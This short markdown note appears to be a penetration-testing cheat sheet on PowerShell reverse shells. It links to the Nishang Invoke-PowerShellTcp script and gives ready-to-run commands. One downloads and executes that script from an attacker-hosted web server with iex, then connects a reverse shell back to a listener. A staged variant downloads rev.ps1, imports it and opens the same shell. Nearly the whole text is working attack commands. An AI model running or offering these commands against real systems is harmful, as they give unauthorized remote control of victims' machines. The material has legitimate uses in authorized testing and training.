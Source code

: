 # powershell

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ip -Port 1234
```

Or the same but in stages

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$ip:8888/rev.ps1')
powershell Import-Module ./rev.ps1; Invoke-PowershellTcp -Reverse -IPAddress $ip -Port 1234
```